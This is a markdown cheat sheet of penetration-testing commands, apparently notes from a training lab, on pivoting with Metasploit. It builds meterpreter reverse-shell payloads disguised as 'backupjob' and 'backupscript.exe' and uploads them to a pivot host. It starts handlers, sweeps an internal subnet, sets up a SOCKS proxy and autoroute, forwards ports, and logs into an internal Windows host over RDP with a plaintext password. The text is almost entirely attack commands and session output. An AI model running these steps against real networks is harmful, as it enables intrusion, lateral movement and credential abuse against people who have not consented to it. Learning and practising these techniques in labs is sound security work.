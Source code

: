 #### Creating Payload for Ubuntu Pivot Host
```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<ip-attacker> -f elf -o backupjob LPORT=8080
```
#### Upload payload using SCP
```
scp backupjob ubuntu@<target-ip>:~/
```
#### Configuring & Starting the multi/handler
```shell
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run
```
#### Executing the Payload on the Pivot Host
```shell
ls
chmod +x backupjob 
./backupjob
```
#### Meterpreter Session Establishment
```meterpreter
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd

/home/ubuntu
```
#### Ping Sweep
```shell
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```
#### Ping Sweep For Loop on Linux Pivot Hosts
```shell
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
#### Ping Sweep For Loop Using CMD
```cmd
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```
#### Ping Sweep Using PowerShell
```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```
#### Configuring MSF's SOCKS Proxy
```shell
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set version 4a
```
#### Confirming Proxy Server is Running
```
jobs


0   Auxiliary: server/socks_proxy
```
#### Adding a Line to proxychains.conf if Needed
```
tail -4 /etc/proxychains.conf
```
```shell
socks4 	127.0.0.1 9050
```
#### Creating Routes with AutoRoute
```shell
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 172.16.5.0
run
```
It is also possible to add routes with autoroute by running autoroute from the Meterpreter session.
```meterpreter
run autoroute -s 172.16.5.0/23
```
#### Listing Active Routes with AutoRoute
```meterpreter
run autoroute -p
```
#### Testing Proxy & Routing Functionality
```shell
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```
## Port Forwarding
```meterpreter
help portfwd
```
#### Creating Local TCP Relay
```meterpreter
portfwd add -l 3300 -p 3389 -r 172.16.5.19
```
#### Connecting to Windows Target through localhost
```shell
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```
#### Netstat Output
```shell
netstat -antp
```
## Meterpreter Reverse Port Forwarding
#### Reverse Port Forwarding Rules
```meterpreter
portfwd add -R -l 8081 -p 1234 -L <ip-attacker>
```
#### Configuring & Starting multi/handler
```meterpreter
bg
```

```meterpreter
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 8081 
set LHOST 0.0.0.0 
run
```
#### Generating the Windows Payload
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```
#### Transfer using SCP
```
scp backupscript.exe ubuntu@10.129.202.64:~/
```
#### Establishing the Meterpreter session
```meterpreter
shell

whoami
```